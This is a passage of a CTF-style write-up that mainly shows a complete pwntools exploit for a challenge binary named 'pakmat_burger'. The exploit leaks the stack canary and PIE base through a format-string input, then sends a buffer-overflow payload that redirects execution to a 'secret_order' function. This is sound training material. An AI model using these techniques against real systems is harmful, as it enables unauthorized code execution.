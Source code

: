 

The final exploit will look like this

```python
padding = b'a'*37
payload = padding + canary + b'b'*8 + elf.symbols.secret_order
```

Complete exploit
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './pakmat_burger'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
os.environ["SECRET_MESSAGE"] = "YOKO"

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================


io = start()


secret = b"YOKO"
io.sendlineafter(b"Please enter your name:",b"%17$p%13$p")
io.recvuntil(b"Hi ")
main_addr = int(io.recv(14).decode(),16)
log.info("main_addr: " + hex(main_addr))


canary = int(io.recv(18).decode(),16)
log.info("CANARY: " + hex(canary))

elf.address = main_addr - elf.symbols.main
log.info("PIE: " + hex(elf.address))
io.sendlineafter(b"enter the secret message:",secret)
io.sendlineafter(b"order?",b"abcd")

secret_order = elf.symbols.secret_order

payload = b"A" * 0x25 + p64(canary) + b"B" * 8 + p64(secret_order + 5)

io.sendlineafter(b": ", payload)
io.interactive()
```
